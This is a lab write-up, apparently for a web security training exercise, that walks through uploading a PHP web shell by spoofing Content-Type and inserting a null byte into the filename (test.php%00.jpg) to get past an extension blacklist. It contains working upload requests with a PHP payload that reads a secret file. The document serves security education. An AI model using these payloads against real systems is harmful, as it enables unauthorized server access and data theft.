 # Web shell upload via obfuscated file extension

## This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed using a classic obfuscation technique.

## To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

## You can log in to your own account using the following credentials: `wiener:peter`

---

### step 1

login using userid and password
upload a image and then upload exploite php file and intercept to repeater

```php
Content-Disposition: form-data; name="avatar"; filename="test.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

send request
result -> sorry, only JPG & PNG files are allowed
now
change content-type

```php
Content-Disposition: form-data; name="avatar"; filename="test.php"
Content-Type: image/jpg

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

send request
result -> sorry, only JPG & PNG files are allowed

### step2

### include a URL encoded null byte _%00_

### test.php%00.jpg

```php
Content-Disposition: form-data; name="avatar"; filename="test.php%00.jpg"
Content-Type: image/jpg

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

send request
result ->The file avatars/test.php has been uploaded
look for jpg file url which we uploaded
GET /files/avatars/meme.jpg HTTP/1.1
change to test.php
GET /files/avatars/test.php HTTP/1.1
send request
a3T2Ox6vJ2N4DaCUMzg6W2hSJaVNiRo1

lab solved
